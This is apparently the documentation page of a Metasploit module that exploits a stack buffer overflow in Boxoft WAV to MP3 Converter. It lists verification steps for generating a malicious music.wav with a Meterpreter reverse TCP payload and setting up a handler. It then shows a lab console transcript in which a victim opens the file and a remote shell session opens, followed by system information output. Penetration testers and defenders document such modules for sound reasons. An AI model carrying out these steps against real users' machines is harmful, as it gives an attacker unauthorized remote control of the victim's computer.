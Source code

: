 
## Vulnerable Application

  This module exploits a stack-based buffer overflow in Boxoft WAV to MP3 Converter.

## Verification Steps

   1.  Install application on the target machine
   2.  Start msfconsole
   3.  Do: `use [exploit/multi/handler]`
   4.  Do: `set payload [windows/meterpreter/reverse_tcp]`
   5.  Do: `set LHOST [IP]`
   6.  Do: `run`
   7.  Do: `use [exploit/windows/fileformat/boxoft_wav_to_mp3]`
   8.  Do: `set payload [windows/meterpreter/reverse_tcp]`
   9.  Do: `set LHOST [IP]`
   10. Do: `run`
   11. Copy the generated file to the target machine
   12. Open Boxoft WAV to MP3 Converter
   13. Select `Next` at the bottom
   14. Select `Add`
   15. Browse to the file and select it
   16. Click `Convert to MP3`

   You should get a shell.

## Options

  **FILENAME**

  The filename that the shellcode gets written to. Setting a filename is not required, as there is a default name already set.

## Scenarios

### Tested on Windows 7 x86


  Generate File

  ```
  msf5 > use exploit/windows/fileformat/boxoft_wav_to_mp3 
  msf5 exploit(windows/fileformat/boxoft_wav_to_mp3) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/fileformat/boxoft_wav_to_mp3) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(windows/fileformat/boxoft_wav_to_mp3) > run

  [+] music.wav stored at /Users/space/.msf4/local/music.wav

  ```
  Set up Handler

  ```
  msf5 > use exploit/multi/handler
  msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.37.138
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.138:49178) at 2018-06-29 14:41:11 -0500

  meterpreter > sysinfo
  Computer        : WIN7-LAB
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows

  ```

